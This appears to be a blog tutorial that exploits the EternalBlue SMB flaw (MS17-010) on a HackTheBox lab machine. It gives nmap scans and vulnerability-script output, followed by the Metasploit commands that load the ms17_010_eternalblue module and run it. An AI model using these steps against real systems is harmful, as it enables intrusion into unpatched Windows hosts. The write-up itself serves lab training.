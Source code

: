 ```yaml
---
title: "How to Hack Windows with EternalBlue"
author: Gerh
featured-img: EternalBlue
image: "https://hackingprofessional.github.io/Security/images/EternalBlue.jpg"
description: "Using the NSA's EternalBlue exploit"
categories: [Hacking Windows, Hacking from 0, Metasploit Framework, 0 Day]
---
```


Hello Hackers!!  
On April 8 the group The Shadow Brokers after entering the systems of the NSA, to expose in their Github the tools they found.  

Within the filtered tools, there is an exploit (EternalBlue) that allows exploiting a vulnerability in the SMB protocol version 1, and of this way can execute Remote Code (RCE) on the victim machine gaining access to the system.  

  - Microsoft Bulletin: [MS17-010(Critical)](https://www.microsoft.com/en-us/msrc?rtc=1)  
  - Common Vulnerabilities and Exposures: [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)  

*WHAT EFFECT HAVE THIS VULNERABILITY?*  
This vulnerability was used to propagate Ransomware Wanna Cry, which encrypted data from companies, and medical centers. To date, there are many variants of Ransomeware.  

## Hacking [Blue](https://www.hackthebox.eu/home/machines/profile/51)
Today we will learn how to exploit this vulnerability using Metasploit, for this demonstration an intrusion test will be performed towards the [Blue](https://www.hackthebox.eu/home/machines/profile/51) machine of the HackTheBox platform.

### Network Enumeration
Let’s start with a quick NMAP scan to discover open ports.

```shell
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3673]
╰─[:)] # nmap -p- -sV -T4 -oN Blue.nmap 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 08:54 -05
Nmap scan report for 10.10.10.40
Host is up (0.39s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Apparently, the team is running the SMB service with port 445.  
We will continue listing this service, for this we will use nmap scripts specifically for the SMB service.
SMB, is a network protocol that allows files, printers and others services to be shared between nodes of a network of computers that use the Microsoft Windows operating system.  
[Full Article](https://en.wikipedia.org/wiki/Server_Message_Block)

### Scanning vulnerabilities using Nmap scripts for an audit
Nmap is highly recognized in the world of Informatic security for its functionality of scanning networks, ports and services. However, the tool has been improving over the years, offering more and more possibilities that are very interesting. Currently incorporates the use of scripts to check some of the most known vulnerabilities, Which are classified in:

  - Auth: Run all your scripts available for authentication
  - Default: Executes the default basic scripts of the tool
  - Discovery: Retrieve information from the target or victim
  - External: Script to use external resources
  - Intrusive: Uses scripts that are considered intrusive to the victim or target
  - Malware: Check for malicious code connections or backdoors (backdoors)
  - Safe: Executes the scripts not intrusive
  - Vuln: Discover the most known vulnerabilities
  - All: Runs absolutely all scripts with NSE extension available

To perform a search of the scripts related to SMB and use them with Nmap, we do the following: 

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # ls /usr/share/nmap/scripts/ | grep "smb-vuln"
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
```

Let's try all the previous scripts for port 445 of the SMB service.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script=smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:24 -05
Nmap scan report for 10.10.10.40
Host is up (0.69s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

Another way to evaluate the above is using the scripts of the category *vuln.*

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script vuln -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:22 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.20s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

With the results of the previous scans, we were able to identify the following:

  - OS: Windows 7
  - Computer name: HARIS-PC
  - VULNERABLE smb-vuln-ms17-010

After identifying that our machine is vulnerable to EternalBlue, we are going to use a metasploit module that allows us to exploit this vulnerability. 

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # msfconsole
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40    <--> IP Victima
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

<script id="asciicast-239838" src="https://asciinema.org/a/239838.js" async></script>

In this way we can completely commit a computer with the Windows operating system, thanks to the exposed vulnerability.
